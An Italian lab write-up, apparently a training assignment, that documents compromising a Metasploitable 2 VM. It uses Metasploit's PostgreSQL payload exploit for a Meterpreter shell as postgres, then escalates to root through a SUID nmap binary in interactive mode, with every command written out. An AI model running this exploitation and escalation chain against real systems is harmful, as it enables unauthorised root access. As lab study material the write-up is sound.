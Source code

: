 # Consegna S7/L3: Ottenere una Shell Root con Exploit PostgreSQL

## 📝 **Descrizione del progetto**
In questa esercitazione abbiamo utilizzato l'exploit **PostgreSQL Payload** di Metasploit per ottenere una shell con privilegi limitati su un sistema vulnerabile (**Metasploitable 2**). Successivamente, abbiamo sfruttato il binario `nmap` con **bit SUID** attivo per eseguire manualmente un'escalation di privilegi ed ottenere **root** sul sistema.

L'obiettivo è stato raggiunto attraverso un approccio sistematico e ben documentato che include:
- Configurazione dell'exploit PostgreSQL per ottenere una sessione iniziale Meterpreter.
- Verifica della presenza di binari vulnerabili con il bit SUID attivo.
- Escalation manuale a root sfruttando `nmap` in modalità interattiva.

---

## 📋 **Passaggi seguiti**

### **1. Configurazione iniziale**
#### Verifica della connessione con Metasploitable
- Identificazione dell'IP della macchina target (**Metasploitable**):
  ```bash
  nmap -sn 192.168.50.0/24
  ```
- IP identificati:
  - **Kali Linux (attaccante):** 192.168.50.2
  - **Metasploitable (target):** 192.168.50.3

### **2. Configurazione dell'exploit PostgreSQL**
Per ottenere una sessione Meterpreter:
```bash
msfconsole
use exploit/linux/postgres/postgres_payload
set RHOSTS 192.168.50.3
exploit
```

![Porcamadonna](./MeterpreterOK.png)

- **Risultato:** Abbiamo ottenuto una sessione Meterpreter come utente **postgres**.

### **3. Verifica dei privilegi e binari vulnerabili**
Dalla sessione Meterpreter, abbiamo verificato l'utente corrente e cercato binari con **bit SUID** attivo:
```bash
getuid
shell
find / -perm -4000 -type f 2>/dev/null | grep nmap
```
- **Risultato:** Trovato `nmap` con bit SUID attivo su `/usr/bin/nmap`.

### **4. Escalation di privilegi a root**
Abbiamo sfruttato manualmente `nmap` per ottenere una shell root:
1. Accedere alla modalità interattiva di nmap:
   ```bash
   /usr/bin/nmap --interactive
   ```
2. Eseguire una shell come root:
   ```bash
   !sh
   ```
3. Verifica dei privilegi:
   ```bash
   whoami
   ```
- **Risultato:** Utente elevato a **root**.

---

## 🎯 **Risultati ottenuti**
- **Accesso iniziale:** Sessione Meterpreter come utente `postgres`.
- **Escalation di privilegi:** Eseguita con successo sfruttando `nmap` con bit SUID.
- **Privilegi finali:** Shell root sul sistema target.

---

## 🛠️ **Strumenti utilizzati**
- **Metasploit Framework:** Per lanciare l'exploit PostgreSQL e ottenere l'accesso iniziale.
- **Nmap (SUID):** Sfruttato manualmente per ottenere root.
- **Linux Shell:** Per l'esecuzione di comandi manuali post-escalation.

---

## 📌 **Considerazioni finali**
Questa esercitazione ha dimostrato l'importanza di combinare strumenti automatizzati (come Metasploit) con tecniche manuali per sfruttare vulnerabilità note. L'escalation di privilegi tramite `nmap` evidenzia come l'errata configurazione dei permessi possa essere sfruttata per ottenere il controllo completo di un sistema target.

**Nota:** La persistenza non è stata implementata in questa fase e sarà configurata successivamente utilizzando msfvenom.

